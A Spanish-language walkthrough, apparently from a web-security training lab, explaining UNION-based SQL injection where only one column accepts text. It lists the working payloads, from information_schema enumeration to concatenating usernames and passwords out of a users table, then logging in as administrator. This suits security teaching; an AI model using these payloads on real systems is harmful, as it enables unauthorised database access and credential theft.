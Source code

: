 En esta clase seguimos utilizando ataques SQL con UNION, pero enfrentamos una situación distinta: solo una de las columnas de la respuesta acepta datos tipo texto. Por eso, necesitamos combinar varios valores dentro de una sola columna para poder mostrarlos.

La tabla objetivo sigue siendo ‘**users**‘, que contiene los campos ‘**username**‘ y ‘**password**‘.

Pasos clave del ataque:

- Primero confirmamos que la consulta original devuelve dos columnas, pero solo una permite mostrar texto.
- En lugar de intentar mostrar ‘**username**‘ y ‘**password**‘ en columnas separadas (lo que daría error), los concatenamos dentro de la misma columna, usando un separador visible como ~.
- El payload final concatena los valores así: “**username || ‘~’ || password**“. Esto unifica ambos datos en una sola cadena que puede ser mostrada sin errores.

Al enviar esta inyección, la respuesta incluirá los nombres de usuario y sus contraseñas, separados por el símbolo elegido. Finalmente, usamos las credenciales del administrador para iniciar sesión y completar el lab.

**Quédate con esto**: Cuando no puedes mostrar varios valores por separado, combínalos en una sola columna textual. Esta técnica te permite seguir extrayendo información sensible en entornos más restringidos.


Solucion
mas de lo mismo pero concatenamos al ultimo
primero order by 
luego, ' union select NULL,schema_name from information_schema.schemata-- - 
Luego, ' union select NULL,table_name from information_schema.tables where table_schema='public'-- - 
Despues  ' union select NULL,schema_name from information_schema.schemata-- - 
Luego, ' union select NULL,table_name from information_schema.tables where table_schema='public'-- 
Luego ' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'--
Ultimo ' union select NULL,username||':'||password from users-- -